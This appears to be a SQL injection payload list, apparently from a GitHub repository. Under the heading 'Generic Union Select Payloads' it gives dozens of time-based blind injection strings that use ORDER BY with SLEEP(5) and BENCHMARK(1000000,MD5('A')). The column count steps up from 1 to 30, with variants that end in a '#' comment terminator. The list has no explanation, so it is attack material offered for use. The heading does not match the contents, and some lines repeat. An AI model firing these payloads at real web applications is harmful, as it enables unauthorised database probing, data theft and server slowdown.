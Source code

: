 #### Generic Union Select Payloads

```
 ORDER BY SLEEP(5)
 ORDER BY 1,SLEEP(5)
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 ORDER BY SLEEP(5)#
 ORDER BY 1,SLEEP(5)#
 ORDER BY 1,SLEEP(5),3#
 ORDER BY 1,SLEEP(5),3,4#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
```